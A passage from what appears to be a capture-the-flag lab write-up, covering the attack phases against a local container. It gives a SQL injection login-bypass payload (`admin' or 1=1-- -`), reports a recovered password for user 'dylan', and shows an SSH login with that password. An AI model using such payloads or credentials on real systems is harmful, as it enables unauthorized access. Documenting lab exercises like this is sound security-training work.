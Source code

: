 ### Phase 3: Injection attack

We can try to inject some code in the login page to see if we can get access to the machine. 

- **User**: `admin' or 1=1-- -`

- **Password**: anything.

Finally, we can see that we have Dylan account\`s password: `KJSDFG789FGSDF78`

<img src="assets/image-2.png" width="70%" style="display: block; margin: auto;" />


### Phase 4: Privilege escalation

If we remember the services that are running in the machine, we can see that `ssh` is one of them. We can try to access to the machine using the `ssh` service.

```
$ ssh dylan@172.17.0.2
dylan@172.17.0.2's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.6.15-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Mon Aug 12 21:11:08 2024 from 172.17.0.1
dylan@c67910d4caf9:~$ 
```
